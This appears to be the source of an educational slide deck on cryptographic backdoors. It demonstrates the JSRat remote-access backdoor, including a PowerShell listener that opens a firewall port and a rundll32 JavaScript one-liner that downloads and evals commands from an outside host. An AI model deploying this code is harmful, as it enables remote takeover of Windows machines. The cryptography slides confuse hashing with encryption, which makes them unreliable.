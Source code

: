 

<Head>
  <title>Presentation Title</title>
</Head>

# Cryptographic Backdoors

```jsx
                                  by Pierre Hérissé
```

---

# What is it ?


---

<Image src="./JSRat/backdoor.gif" size="65vw"/>

---

# Backdoor :
<ul>
  <Appear>
    <li>hidden method</li>
    <li>to bypass normal behavior</li>
    <li>of authentication or encryption </li>
    <li>of a system</li>
  </Appear>
</ul>

---

<h3>legal software</h3>
<h3>+</h3>
```jsx
  illegal backdoor
```
<h3>=</h3>
```jsx
   Trojan Horse
```

---

## Example : JSRat (PowerShell)
<https://github.com/3gstudent/Javascript-Backdoor>

Original author : Casey Smith

---
### [ JSRat-1 ] - Start a web server & wait for the client command
```jsx
  $Server = '192.168.1.14' #Listening IP.

  $listener = New-Object System.Net.HttpListener
  $listener.Prefixes.Add('http://+:80/')

  netsh advfirewall firewall delete rule name="PoshRat 80" | Out-Null
  netsh advfirewall firewall add rule name="PoshRat 80" dir=in
  action=allow protocol=TCP localport=80 | Out-Null

  $listener.Start()
  'Listening ...'

  try {
    h.Open("GET","http://'+$Server+'/rat",false);
    h.Send();
    c = h.ResponseText;
  }
  ...
```
---

<Image src="./JSRat/listenning.png" size="95vw"/>

---

### [ JSRat-2 ] - When user visits this JavaScript command URL, the connection is established 👌
```jsx
  rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";
  document.write();
  h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");
  w=new%20ActiveXObject("WScript.Shell");

  try { v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\
        CurrentVersion\\Internet%20Settings\\ProxyServer");
        ... h.SetProxy(2,q);
  } catch(e){}

  h.Open("GET","http://192.168.1.14/connect", false);
  try { h.Send(); B=h.ResponseText; eval(B); }
  catch(e) { new%20ActiveXObject("WScript.Shell").Run(
      "cmd /c taskkill /f /im rundll32.exe",0,true
  )}
```
---

<Image src="./JSRat/connect.png" size="90vw"/>

---

<Image src="./JSRat/example_connected.png" size="90vw"/>

---

### [ JSRat-3 ] - Commands can now be executed on the target like any other normal command prompt 😇

---

<Image src="./JSRat/connected.png" size="55vw"/>

---

# Cryptographic :
<ul>
  <Appear>
    <li>suite of algorithms</li>
    <li>to implement security and confidentiality</li>
    <li>3 algorithms :<ul>
      <Appear>
        <li>key generation</li>
        <li>encryption (SHA, MD5, etc.)</li>
        <li>decryption </li>
      </Appear>
    </ul> </li>
  </Appear>
</ul>

---

```
cipher = [ encryption, decryption ]
```

---

  #### => Frontdoor key : cipher chosen by the encryptor
  ```jsx
      => regular password
  ```
  #### => Backdoor key : cipher chosen by the algorithm designer
  ```jsx
      => master password
  ```

---

  #### Symmetrical encryption : same key to encrypt & decrypt
  ```jsx
    password = "toto"
    hash = encrypt(password) // hash = ************
    dehash = decrypt(hash) // dehash = toto
  ```
  #### Asymmetrical encryption : uses a cipher [encrypt, decrypt]
  ```jsx
    password = "toto"
    hash = encrypt(password) // hash = ************
    superHash = cipher.encrypt(hash) // superHash = ############
  ```
  ❗️ cipher.encrypt is public, but cipher.decrypt is secret ❗️

---


  #### Backdoor encryption :
  ```jsx
  password = "toto"
  hash = randomEncrypt(password)
             // hash = ***###***###***

  superHash = cipher.encrypt(hash)
           // superHash = #*#*#*#*#*#*#*#*#

  masterHash = masterKey.cipher.encrypt(superHash);
         // masterHash = #**##;;;#*#***##;#***;;###

  backdoorHash = {header: superHash, password: masterHash}
  ```

---

Sources : <https://crypto.stackexchange.com/questions/32840/laymans-explanation-of-encryption-backdoors>



---


```jsx
« Mandatory cryptographic backdoors will leave all of
us at increased risk of data compromise, possibly
on a massive scale, by crooks and terrorists…

…whose illegal activities we will be able to
eavesdrop and investigate only if they too comply
with the law, by using backdoored encryption software
themselves. »
```
